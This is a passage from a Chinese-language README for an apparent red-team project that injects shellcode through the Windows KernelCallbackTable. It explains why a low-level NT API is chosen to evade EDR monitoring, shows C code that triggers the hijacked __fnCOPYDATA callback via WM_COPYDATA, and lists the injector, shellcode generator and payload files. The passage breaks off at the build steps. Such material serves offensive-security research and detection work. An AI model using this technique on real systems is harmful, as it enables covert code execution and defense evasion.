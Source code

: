 **为什么使用这个 API**:
- 低级 NT API，直接访问进程内部
- 绕过高级 API 的限制
- EDR 可能监控不足

### 5. 触发机制

```c
// 发送 WM_COPYDATA 消息
COPYDATASTRUCT cds;
cds.dwData = 1;
cds.cbData = sizeof(data);
cds.lpData = data;

SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)&cds);
```

**消息处理流程**:
```
SendMessage(WM_COPYDATA)
    → Windows 内核
    → 查找目标进程的 PEB->KernelCallbackTable
    → 调用 table->__fnCOPYDATA
    → 执行我们的 shellcode!
```

## 项目结构

```
10-kernel-callback-table/
├── README.md                         # 本文档
├── build.sh                          # Linux/macOS 构建脚本
├── build.bat                         # Windows 构建脚本
├── src/
│   ├── kernel_callback_injection.c   # 主注入器
│   └── generate_shellcode.c          # Shellcode 生成器
└── build/
    ├── kernel_callback_injection.exe # 主程序
    ├── generate_shellcode.exe        # Shellcode 工具
    └── payload.bin                   # 测试载荷
```

## 构建和使用

### 前置要求

- **编译器**: GCC (MinGW-w64)
- **架构**: x64
- **系统**: Windows 7+
- **目标**: GUI 应用（有窗口的进程）

### 构建步骤
